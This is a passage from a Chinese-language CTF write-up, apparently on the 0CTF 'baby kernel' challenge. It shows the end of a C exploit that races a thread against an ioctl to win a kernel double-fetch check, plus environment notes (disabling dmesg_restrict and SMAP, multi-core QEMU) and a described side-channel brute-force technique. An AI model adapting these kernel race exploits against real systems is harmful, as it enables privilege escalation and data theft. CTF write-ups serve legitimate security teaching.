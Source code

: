 ```c
    addr_fd = open("/tmp/record.txt",O_RDONLY);
    lseek(addr_fd,-LEN,SEEK_END);
    read(addr_fd,buf,LEN);
    close(addr_fd);
    idx = strstr(buf,"Your flag is at ");
    if (idx == 0){
        printf("[-]Not found addr");
        exit(-1);
    }
    else{
        idx+=16;
        addr = strtoull(idx,idx+16,16);
        printf("[+]flag addr: %p\n",addr);
    }
	//构造attr数据结构
    t.len = 33;
    t.flag = buf;
    //新建恶意线程
    pthread_create(&t1, NULL, change_attr_value,&t);
    for(int i=0;i<TRYTIME;i++){
        ret = ioctl(fd, 0x1337, &t);
        t.flag = buf;
    }
    finish = 1;
    pthread_join(t1, NULL);
    close(fd);
    puts("[+]result is :");
    system("dmesg | grep flag");
    return 0;
}
```

### 其他
此题在环境配置时，有几点需要注意。

首先， 需关闭 `dmesg_restrict` ，否则无法查看 `printk` 信息，具体操作是在启动脚本中加入：

```bash
echo 0 > /proc/sys/kernel/dmesg_restrict
```

其次，配置 QEMU 启动参数时， 不要开启 `SMAP` 保护，否则在内核中直接访问用户态数据会引起 `kerne panic` 。

还有，配置 QEMU 启动参数时，需要配置为非单核单线程启动，否则无法触发题目中的竞争条件。具体操作是在启动参数中增加其内核数选项，如：

```bash
-smp 2,cores=2,threads=1  \
```

> 在启动后，可通过 `/proc/cpuinfo` 查看当前运行的内核数及超线程数。

最后，此题存在一种侧信道攻击的非预期解法：

>由于是 flag 是硬编码的，并且是检查方法是逐字节比较，因此可以逐字节爆破来得到 flag。
>
>方法是将待爆破的字节放在 mmap 申请的内存页末位，此时下一字节位于不可读写的用户态空间。当得到正确的一字节时，内核会比较用户空间内下一个字节的正确性，由于该地址是不可读的，将导致 `kernel panic`，从而可以判断是否爆破的一个字节正确。

## Reference
https://www.usenix.org/conference/usenixsecurity17/technical-sessions/presentation/wang-pengfei

https://veritas501.space/2018/06/04/0CTF%20final%20baby%20kernel/

http://p4nda.top/2018/07/20/0ctf-baby/

https://www.freebuf.com/articles/system/156485.html



